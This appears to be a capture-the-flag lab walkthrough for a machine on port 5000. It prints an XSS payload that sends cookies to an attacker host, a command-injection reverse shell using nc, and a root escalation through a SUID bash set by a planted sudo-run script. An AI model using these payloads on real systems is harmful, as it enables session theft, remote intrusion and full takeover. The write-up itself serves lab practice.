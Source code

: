 
nmap:
	22, 5000tcp

Access the site using `<siteIP>:5000`



```
Xss on user-agent field as well as on the message field on /support:
<img src=x onerror=fetch('http://<kaliTun0ip>'+document.cookie);>
```
Using this we will get the admin user cookie and then paste this cookie on the `/dashboard` endpoint .

---

**Dashboard ENUM**
--
There is a date filed, captured using burp. Inserting `;id` or `| id` in the date field confirms it for a command injection vuln. We can run other commands such as `ls,whoami,pwd`.

Time for a reverse shell.

In the date parameter , enter this , open up a listener beforehand lol:

date=`; nc 10.10.14.33 6666 -e /bin/bash`


After getting shell back, we can see the userflag.

---

**PRIV ESC**:

`sudo -l` will reveal info, cat the said service.

You can see details of a .sh file that is needed to be present, and it is ran.
So we can make our malicious .sh file and launch it and get root that way.

```
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh to make it executable
```

then we run it as normal :
`sudo syscheck`
then 
`/bin/bash -p` to spawn a root bash shell.

pwnd! 
